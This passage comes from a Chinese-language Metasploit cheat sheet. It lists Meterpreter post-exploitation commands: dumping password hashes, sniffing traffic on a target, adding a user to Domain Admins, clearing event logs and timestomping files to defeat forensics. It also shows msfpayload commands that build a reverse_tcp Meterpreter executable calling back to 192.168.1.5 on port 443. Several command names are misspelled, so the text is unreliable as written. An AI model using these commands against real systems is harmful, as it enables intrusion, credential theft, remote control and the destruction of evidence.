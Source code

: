 导出目标主机中的口令哈希值。

- use sniffer

加载嗅探模块。

- sniffer_interfaces

列出目标主机所有开放的网络接口。

- sniffer_dump interfaceID pcapname

在目标主机上启动嗅探。

- sniffer_start interfaceID packet_buffer

在目标主机上针对特定范围的数据包缓冲区启动嗅探。

- sniffer_stats interfaceID

获取正在实施嗅探网络接口的统计数据

- sniffer_stop interfaceID

停止嗅探。

- add_user username password -h ip

在远程目标主机上添加一个用户。

- add_group_user “Domain Adimins”username -h ip

将用户添加到目标主机的域管理员组中。

- clearev

清除目标主机上的日志记录。

- timestomp

修改文件属性，例如修改文件的创建时间（反取证调差）。

- reboot

重启目标主机。

### 3.MSFpayload命令

- msfpayload -h

MSFpayload 的帮助信息。

- msfpayload windows/meterpreter/bind_tcp O

列出所有可用的攻击载荷。

- msfpayload windows/metarpreter/bind_tcp O.

列出所有windows/meterpreter/bind_tcp 下攻击载荷的配置项（任何攻击载荷都是可以配置的）。

- msfpayload windows/metaerpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X>payload.exe

创建一个metarpreter的reverse_tcp 攻击载荷回连到192.168.1.5的443端口，将其保存为名为payload.exe的windows可执行程序。

- msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R>payload.ray
